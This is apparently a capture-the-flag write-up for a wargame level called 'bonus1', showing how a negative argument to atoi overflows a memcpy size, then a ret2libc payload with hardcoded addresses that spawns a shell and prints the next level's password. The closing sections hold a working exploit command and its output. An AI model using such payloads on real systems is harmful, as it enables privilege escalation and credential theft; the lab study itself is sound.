 # 💥 Bonus1 - Exploit Walkthrough
## 🧪 First Step - Testing the Program
```bash
$ ./bonus1
Segmentation fault (core dumped)
$ ./bonus1 coucou
$ ./bonus1 coucou coucou
```
- ⚠️ The binary crashes without parameters.
- 🧩 Accepts arguments, but causes a segmentation fault under certain conditions.

## 🐞 Run in GDB
```bash
$ gdb -q ./bonus1
(gdb) disas main
```
- 🔍 Disassembly shows:
- - atoi(argv[1]) is used and checked if ≤ 9.
- - memcpy() is called with an attacker-controlled size.
- - There’s a call to execl("/bin/sh", "sh", 0) only if a certain value is matched.

```asm
0x08048438 <+20>: call   0x8048360 <atoi@plt>
...
0x08048473 <+79>: call   0x8048320 <memcpy@plt>
...
0x08048499 <+117>: call   0x8048350 <execl@plt>
```
- 💡 There's a classic buffer overflow vulnerability due to improper memcpy() bounds checking.

## 🧠 Vulnerability Analysis
- 🧮 The input number is multiplied by 4 and used as a size argument for memcpy(dest, src, size).
- ✨ If a negative number is given, it wraps around as a large unsigned int, leading to buffer overflow.
- 🧱 The buffer is 64 bytes (0x40), and overflowing past it allows overwriting EIP.

## 🔍 Finding the Offset
```bash
$ ./bonus1 -1073741803 $(python -c 'print("A"*100)')
```
- 💥 Causes a segfault and overwrites EIP.
- 🧪 Pattern-based analysis shows that EIP is overwritten after 56 bytes.
- 🎯 Offset = 56

## 🔧 Preparing Ret2Libc Attack
- 🪝 Goal: Jump to system("/bin/sh")
- 🧵 Strings and addresses from the binary:

```bash
$ strings -tx ./bonus1 | grep /bin/sh
8048583 /bin/sh
```gdb
(gdb) info functions system
0xb7e6b060  system
```
- 📦 Payload structure:
```css
[ "B" * 56 ] +
[ system@libc ] +
[ junk return addr ] +
[ "/bin/sh" string addr ]
```

## 🚀 Final Exploit
```bash
$ ./bonus1 -1073741803 $(python -c 'print("B"*56 + "\x60\xb0\xe6\xb7" + "JUNK" + "\x83\x85\x04\x08")')
$ whoami
bonus2
$ cat ~bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
- 🎉 Done!
